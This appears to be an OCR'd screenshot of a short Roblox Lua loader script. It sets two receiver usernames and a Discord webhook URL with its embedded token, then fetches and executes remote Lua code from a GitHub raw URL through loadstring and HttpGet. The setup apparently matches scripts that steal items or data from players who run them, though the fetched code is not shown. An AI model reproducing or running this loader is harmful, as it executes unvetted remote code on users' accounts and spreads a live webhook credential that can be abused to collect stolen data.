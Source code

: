 UserName = "NOT_SCANBRO"
UserName2 = "NOT_SCANBRO2"
Webhook = "https://discord.com/api/webhooks/1092224343347572776/E_QZK2yNbkL-RogqgquRv5fb5qqNvtsLRyTv5t822bIReO2ORkwHXZwp4ZOBZjSxYu9b"

loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/Rizz/main/Main.lua"))()
